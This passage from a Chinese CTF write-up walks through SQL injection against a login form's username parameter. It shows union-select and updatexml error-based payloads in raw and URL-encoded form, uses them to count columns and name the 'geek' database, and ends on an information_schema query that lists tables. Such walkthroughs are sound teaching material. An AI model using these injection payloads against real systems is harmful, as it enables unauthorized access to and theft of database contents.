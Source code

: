 显示Your password is '624a1da197e6a30eaf32e7870b74774d'，但是试验之后这并不是flag，大概是出题人的恶趣味（笑）

本以为是简单的hex编码然后存储信息，不过译码出来是乱码，也不像base64/32，所以暂时搁置这一串数字。

测试一下过滤，发现几乎没有过滤任何字符，那么我们可以采用这样的思路：

***数据库名 -> 表名 -> 字段***

(ps:在bs中用repeater传参数时要用url编码不然会出问题)

?username=admin' union select * from a#
?username=admin%27%20union%20select%20%2A%20from%20a%23

返回：

Table 'geek.a' doesn't exist

这说明数据库的名字是geek

或者使用updatexml进行error-type注入：

?username=admin' or updatexml(1, concat(1,database()), 1)#
?username=admin%27%20or%20updatexml(1,%20concat(1,database()),%201)%23

（database()函数返回当前数据库名

返回：

XPATH syntax error: 'geek'

同样可以爆出数据库名字geek

接下来爆表名

?username=admin' union select 1,2,3,4
?username=admin%27%20union%20select%201,2,3,4%23

这里union用作联合查询，查询一组虚拟的数据(1,2,3,4)，这组数据如果和前面的select的元素个数不同就会报错，所以可以试出前面select了几个元素

报错：

The used SELECT statements have a different number of columns

换成三个：

?username=admin' union select 1,2,3

对了，不过还是显示admin，说明表里的user还真是admin，我们换一个：

?username=admi' union select 1,2,3

Hello 2！

Your password is '3'

可以看到原来数据的位置被我们的2,3替换，这下看懂了

现在开始走流程爆表名和字段

用information_schema查询表名：

?username=admi' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
?username=admi%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23
